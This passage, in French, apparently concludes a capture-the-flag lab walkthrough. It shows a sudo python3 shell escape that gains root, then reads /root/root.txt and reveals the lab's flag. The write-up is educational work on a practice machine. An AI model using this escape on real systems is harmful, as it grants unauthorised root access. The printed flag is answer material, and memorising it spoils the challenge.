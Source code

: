 ```bash
sudo python3 -c 'import os; os.system("/bin/sh")'
```

<img src="documentation/images/privesc8.png" style="border-radius:5px; box-shadow: 5px 5px 5px #888888;">

Cela a fonctionné ! Nous sommes maintenant **root** sur la machine ! Nous avons atteint le plus haut niveau de privilège !

Il nous reste maintenant plus qu'une seule chose à faire. Récupérer le root flag qui se situe dans un endroit ou seul l'utilisateur **root** à accès "/root"

```bash
cd /root
```

et enfin :

```bash
cat root.txt
```

> empirelabs{python_s3rp3nt_du_d3sert}

**Bravo vous venez d'arriver à bout de votre première machine !**
